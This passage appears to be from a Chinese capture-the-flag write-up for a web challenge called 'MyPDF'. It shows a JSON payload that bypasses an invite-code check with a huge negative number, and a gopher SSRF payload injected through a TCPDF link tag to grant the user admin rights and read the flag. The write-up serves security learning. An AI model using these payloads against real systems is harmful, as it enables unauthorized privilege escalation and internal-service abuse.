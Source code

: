### MyPDF（原题）

www.zip 下载到源码

**您猜怎么着，又是抄了21年的****原题** **https://r0.haxors.org/posts?id=15**

注册的邀请码绕过 

```JSON
{"action":"register","d":{"user":"llllllll","pass":"llllllll","invite":-1e122222222222}}
```

题目环境不出网，但是题目中对 tcpdf 的代码做了一点小修改，让其可以直接打 gopher ssrf

![img](../images/2024-ProvinceCTF/image7.webp)

payload

```JSON
{
    "action":"new",
    "d":{
        "title":"<linktype=\"text/css\"href=\"gopher://localhost:8082/_POST%20%2Fusers%20HTTP%2F1%2E1%0AHost%3A%20localhost%0AContent%2DLength%3A%2019%0AContent%2Dtype%3A%20application%2Fjson%0A%0A%7B%22user%22%3A%22llllllll%22%7D\">",
        "content":"1234"
     }
}
```

将自己当前用户设置成 admin 权限，最后直接拿 flag

## PWN

### pwn_server
